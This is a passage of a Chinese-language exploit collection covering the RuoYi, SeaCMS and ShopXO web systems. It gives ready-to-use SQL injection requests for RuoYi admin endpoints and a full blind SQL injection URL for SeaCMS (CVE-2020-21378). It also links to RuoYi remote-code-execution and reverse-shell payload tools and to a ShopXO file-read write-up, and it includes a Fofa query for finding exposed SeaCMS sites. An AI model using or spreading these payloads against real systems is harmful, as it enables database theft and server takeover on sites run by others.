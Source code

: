 **4.6.1 后台注入**
- 相关文章
    - [Xcheck Java引擎漏洞挖掘&防护识别](https://mp.weixin.qq.com/s/FPMUVoSqc0Lsf5BQx07ADw)

- POC | Payload | exp
    ```
    POST /ruoyi/system/user/list HTTP/1.1
    POST /ruoyi/system/user/export HTTP/1.1
    POST /ruoyi/system/Allocated/list HTTP/1.1
    POST /ruoyi/system/role/list HTTP/1.1
    POST /ruoyi/system/dept/list HTTP/1.1

    params[dataScope]=a
    ```

**4.6.2 后台RCE**
- 相关文章
    - [记一次若依cms后台getshell](https://bkfish.gitee.io/2021/06/26/%E8%AE%B0%E4%B8%80%E6%AC%A1%E8%8B%A5%E4%BE%9Dcms%E5%90%8E%E5%8F%B0getshell/)
        - [bkfish/yaml-payload-for-Win](https://github.com/bkfish/yaml-payload-for-Win) - 用于windows反弹shell的yaml-payload
    - [若依CMS4.6.0后台RCE](https://www.cnblogs.com/r00tuser/p/14693462.html)
    - [若依CMS后台getshell](http://www.yongsheng.site/2021/08/31/%E8%8B%A5%E4%BE%9DCMS%E5%90%8E%E5%8F%B0getshell/)

- POC | Payload | exp
    - [lz2y/yaml-payload-for-ruoyi](https://github.com/lz2y/yaml-payload-for-ruoyi)
    - [passer-W/Ruoyi-All](https://github.com/passer-W/Ruoyi-All) - 若依后台定时任务一键利用

---

### SeaCMS

> Fofa: app="海洋CMS"

**CVE-2020-21378 后台SQL注入漏洞**
- 描述

    攻击者可通过对admin_members_group.php的编辑操作中的id参数利用该漏洞进行SQL注入攻击。

- POC | Payload | exp
    ```
    /admin_members_group.php?action=edit&id=2%20and%20if(mid(user(),1,1)=%27r%27,concat(rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27))%20RLIKE%20%27(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2bcd%27,1)
    ```

---

### ShopXO

**CNVD-2021-15822 任意文件读取漏洞**
- 相关文章
    - [ShopXO download 任意文件读取漏洞 CNVD-2021-15822](https://mp.weixin.qq.com/s/69cDWCDoVXRhehqaHPgYog)

---